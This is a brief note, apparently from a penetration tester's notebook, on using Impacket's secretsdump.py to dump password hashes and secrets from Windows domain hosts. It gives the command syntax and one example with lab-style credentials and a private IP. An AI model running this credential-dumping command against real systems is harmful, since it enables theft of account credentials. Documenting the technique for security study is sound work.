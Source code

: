 
dumping hashes and secrets in windows
## usage:
```bash
secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IP 

# Example

secretsdump.py marvel/fcastle:Password1@192.168.181.32
```
^secdum


---
Tags: #hashdump #AD #impackets 
Resources: [Impacket](https://github.com/fortra/impacket)